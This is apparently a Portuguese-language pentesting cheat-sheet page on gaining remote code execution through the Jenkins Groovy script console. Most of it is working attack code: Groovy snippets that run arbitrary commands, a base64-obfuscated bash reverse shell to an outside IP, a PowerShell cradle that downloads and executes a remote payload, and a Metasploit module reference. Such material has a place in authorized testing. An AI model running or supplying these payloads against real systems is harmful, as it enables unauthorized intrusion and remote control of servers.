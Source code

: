# Jenkins RCE com Groovy Script

Isso é menos ruidoso do que criar um novo projeto no Jenkins

1. Vá para _path\_jenkins/script_
2. Dentro da caixa de texto, introduza o script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

Você pode executar um comando usando: `cmd.exe /c dir`

No **linux** você pode fazer: **`"ls /".execute().text`**

Se você precisar usar _aspas_ e _aspas simples_ dentro do texto. Você pode usar _"""PAYLOAD"""_ (três aspas duplas) para executar o payload.

**Outro script groovy útil** é (substitua \[INSIRA O COMANDO]):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSIRA O COMANDO]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Shell reverso no linux

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Shell reverso no windows

Você pode preparar um servidor HTTP com um shell reverso do PS e usar o Jeking para baixá-lo e executá-lo:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### Script

Você pode automatizar esse processo com [**este script**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py).

Você pode usar o MSF para obter um shell reverso:

```
msf> use exploit/multi/http/jenkins_script_console
```